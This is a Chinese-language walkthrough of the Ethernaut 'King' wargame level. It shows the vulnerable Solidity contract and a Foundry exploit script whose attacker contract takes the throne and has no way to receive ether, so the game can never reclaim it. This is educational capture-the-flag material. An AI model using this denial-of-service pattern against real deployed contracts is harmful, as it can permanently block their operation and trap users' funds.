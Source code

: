 # Level 9 - King
## 題目
[King](https://ethernaut.openzeppelin.com/level/0x3049C00639E6dfC269ED1451764a046f7aE500c6)
### 通關條件
下面的合約是一個很簡單的遊戲：任何發送了高於目前獎品 ether 數量的人將成為新的國王。在這個遊戲中，新的獎拼會支付給被推翻的國王，在這過程中就可以賺到一點 ether。看起來是不是有點像龐氏騙局 (*´∀`)~♥ 這麽好玩的遊戲，你的目標就是攻破它。 當你提交實例給關卡時，關卡會重新申明他的王位所有權。如果要通過這一關，你必須要阻止它重獲王位才行 (ﾒﾟДﾟ)ﾒ
### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```
## 解題
先搞懂題目合約的功能：A 轉進去 100 成為國王，B 必須要轉進去大於 100 的金額才可以成為新的國王，當 B 變成國王時，A 可以拿到 B 轉進去的錢。

另外每次提交時，關卡都會重新搶一次國王，所以重點是如何讓關卡搶王位失敗；也就是讓它轉帳失敗就可以讓他無法搶到王位了，關於轉帳失敗在 [Level 7 - Force](https://hackmd.io/@D13/ethernaut7) 有提到只要合約沒有 `receice()` 和 `fallback() payable` 時，是無法收款的。

總結我們的攻擊流程：
1. 寫一個合約，轉帳給關卡合約成為國王
2. 合約內不要用任何收款函數，這樣關卡重新奪位時會因為交易失敗導致無法成為國王

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/09_King.sol";

contract ExploitScript is Script {

    function run() external {
        vm.startBroadcast();

        KingAttacker kingAttacker = new KingAttacker{value:0.001 ether}(your_challenge_address);
        kingAttacker.attack();

        vm.stopBroadcast();
    }
}

contract KingAttacker {
    address public challengeInstance;

    constructor(address _challengeInstance) payable {
        challengeInstance = _challengeInstance;
    }

    function attack() external {
        (bool success, ) = payable(challengeInstance).call{value: 0.001 ether}("");
    }
}
```